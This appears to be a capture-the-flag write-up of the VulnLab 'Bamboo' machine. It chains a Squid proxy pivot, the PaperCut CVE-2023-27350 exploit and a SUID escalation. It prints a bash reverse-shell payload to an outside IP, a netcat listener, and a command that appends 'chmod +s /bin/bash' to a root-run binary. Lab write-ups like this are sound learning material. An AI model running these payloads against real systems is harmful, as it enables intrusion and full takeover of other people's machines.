

Hello friends, Remo is back. In this writeup I walk through how I pwned the Bamboo machine from VulnLab: from initial enumeration to root, covering the key steps, tools, and techniques used to complete the box.

Reconnaissance
Let's start by scanning the machine to see what's exposed.
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,3128 --min-rate=1000 10.10.110.40

Notice that we have the Squid port (3128) open, which means we can scan the internal ports through it.
Squid proxy pivot
Now let's scan the internal ports behind the proxy.
./squidscan

Now let's add the proxy to our proxychains configuration and curl the newly discovered port.
http 10.10.110.40 3128
curl --proxy http://10.10.110.40:3128 http://10.10.110.40:9191 -v

PaperCut RCE
A quick search points to a known PaperCut vulnerability. Let's gain RCE, first open a listener, then fire the exploit.
nc -lvnp 1337 # then, through the proxy: proxychains -q python3 CVE-2023-27350.py -u "http://10.10.110.40:9191" -c "bash -i >& /dev/tcp/10.8.5.233/1337 0>&1"

Shell stabilization
A raw reverse shell is fragile. Let's upgrade it to a fully interactive TTY.
python3 -c 'import pty;pty.spawn("/bin/bash")' # CTRL+Z, then: stty raw -echo;fg export TERM=xterm
Then forward the internal admin port so we can reach it locally.
ssh -L 9191:127.0.0.1:9191 papercut@10.10.110.40
Authentication bypass
With the admin console reachable, we abuse a known authentication-bypass to reach the print-management server settings.
python3 bypass.py

Privilege escalation to root
Monitoring processes with pspy64 reveals a server-command binary being executed by a
privileged job. We overwrite it to set the SUID bit on bash.
| Step | Action | Result |
|---|---|---|
| 1 | Run pspy64 | Spot server-command executed as root |
| 2 | Append payload to the binary | Queues chmod +s /bin/bash |
| 3 | Trigger via "refresh servers" | /bin/bash becomes SUID |
| 4 | /bin/bash -p | Root shell 🎉 |
echo "chmod +s /bin/bash" >> /home/papercut/server/bin/linux-x64/server-command # then in the web UI, click "refresh servers", and: ls -als /bin/bash /bin/bash -p

That's it for the Bamboo machine, a great test of enumeration and exploitation skills, chaining a Squid pivot, a PaperCut CVE, and a SUID misconfiguration. Hope you found the writeup useful.
- Remo